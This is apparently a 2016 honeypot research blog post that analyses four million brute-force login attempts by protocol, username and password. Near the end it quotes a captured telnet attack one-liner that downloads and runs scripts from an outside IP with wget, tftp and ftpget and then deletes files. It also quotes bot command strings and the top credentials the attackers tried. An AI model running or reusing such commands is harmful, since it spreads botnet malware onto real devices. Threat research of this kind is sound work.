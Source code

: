 ```yaml
---
title: "Initial analysis of four million login attempts"
authors: ["Johnny Vestergaard"]
date: "2016-09-09"
categories: 
  - "analysis"
tags: 
  - "analysis-d79"
  - "heralding-d24"
  - "honeypot-d9"
---
```


**Introduction**

This blog post is a follow up to an [earlier article](https://honeynet.org/node/1321), where I set out to conceive a system that could deliver the data needs to answer 5 specific questions.

**The setup**

To provide the data needed for this analysis, my setup consisted of 4 VPS situated respectively at Amazon EC2, Azure, MeeBox and a Danish ISP end-user connection. Even though the same 4 VPS were used throughout the data collection, 6 different IP addresses were used for the honeypots - the reason for this was that one of the honeypots had a dynamically assigned IP address. As mentioned in an [earlier article](https://honeynet.org/node/1321) all honeypots were running Heralding. The technical setup was automated with ansible.

**Time period and initial data**

A subset of all collected data was selected for analysis, the subset covered the period 24. may 2016 to 24. august 2016. In this period there were 4,369,149 login attempts. For each login attempt the following data was available:

timestamp, session\_id, auth\_id, protocol, source\_ip, source\_port, destination\_ip, destination\_port, username, password.

**Which protocols does my adversary try to brute-force?**

Since Heralding only supports 6 protocols (8 if you include ssl wrapped http and pop3), the possibility space is limited to the supported protocols. Furthermore the HTTP capability only supports basic authentication and the pop3 and smtp implementations also only supports a limited subset of the authentication mechanisms normally available for said protocols.

As expected the two most targeted protocols was SSH and Telnet, these two protocols combined saw around 93% of all brute force activity. More surprisingly it was found that SMTP and POP3 only saw around 7% of all activity, I expected the numbers for email protocols would be higher, but maybe SMTP relays sells too cheap to be worth the hassle?

<table><caption>Attacks per protocol</caption><tbody><tr><th>Protocol</th><th>Attempts</th><th>Percentage</th></tr><tr><td>SSH</td><td>2717874</td><td>62%</td></tr><tr><td>Telnet</td><td>1353050</td><td>31%</td></tr><tr><td>SMTP</td><td>196601</td><td>5%</td></tr><tr><td>POP3</td><td>83420</td><td>2%</td></tr><tr><td>HTTP</td><td>17990</td><td>&lt;1%</td></tr><tr><td>FTP</td><td>194</td><td>&lt;1%</td></tr><tr><td>HTTPS</td><td>20</td><td>&lt;1%</td></tr><tr><td>POP3S</td><td>0</td><td>0</td></tr></tbody></table>

**Which username and password did he use?**

A total of 11685 usernames and 128001 was collected during the period. Not surprisingly the username root comes in at a first place with 2955040 login attempts. More surprising the second most attempted password was _/bin/busybox MIRAI_, this is most definitely not an password attempt - but looks more like trying to execute some known malware. Never the less this was attempted 106969 times, it would be interesting to look at the timing of these - maybe it can be correlated with OSINT on this specific malware. Update: For further information in regards to MIRAI, check this [article](http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html?m=1) by [MalwareMustDie](http://malwaremustdie.org).

<table><caption>Top 5 username</caption><tbody><tr><th>Username</th><th>Attempts</th></tr><tr><td>root</td><td>2955040</td></tr><tr><td>admin</td><td>300637</td></tr><tr><td>shell</td><td>147641</td></tr><tr><td>support</td><td>114015</td></tr><tr><td>sh</td><td>107741</td></tr></tbody></table>

<table><caption>Top 5 passwords</caption><tbody><tr><th>Password</th><th>Attempts</th></tr><tr><td>enable</td><td>107361</td></tr><tr><td>/bin/busybox MIRAI</td><td>106969</td></tr><tr><td>12345</td><td>105879</td></tr><tr><td>admin</td><td>101248</td></tr><tr><td>1234</td><td>89741</td></tr></tbody></table>

A curated list of all attempted passwords can be found [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_passwords.txt) and a list of usernames [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_usernames.txt).

**Future work**

Still 3 of the original questions need to be answered, the data is at hand - and will result in another blog post when I find the time. For the record, the remaining questions are:

- At which speed did he brute-force?
- From where did he proxy from?
- What time of day did he brute-force?

Also it would be interesting to do an analysis of username and password combinations.

One thing i especially noted, is that some of telnet login attempts is not normal bruteforce activity. Some of it looks to be raw shell exploitations attempts:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://104.207.135.146/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 104.207.135.146 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 104.207.135.146; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 104.207.135.146 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *`

Others looks to be some kind of malfunctional bot:

`Failed opening raw socket.Failed setting raw headers mode.all,synrstfinackpshInvalid flag "%s"PONG!GETLOCALIPMy IP: %sSCANNERSCANNER ON | OFFOFFSCANNER STOPPED!ONSCANNER STARTED!HOLDJUNKUDPTCPKILLATTKLOLNOGTFO8`

And now it gets plain old weird, this entry looks like logs from another honeypot: `Failed telnet attempt - 2.180.25.253:root:toor Failed telnet attempt - 120.36.60.61:admin:toor`

Want to do your own analysis or crazy visualizations? [Contact me](mailto:jkv@unixcluster.dk), and I will provide you with the raw data (IP addresses will be sanitized). The only condition, is that your analysis must be made public.

 

Regards,

Johnny Vestergaard

[LinkedIN](https://www.linkedin.com/in/johnnykv)

[Mail](mailto:jkv@unixcluster.dk)
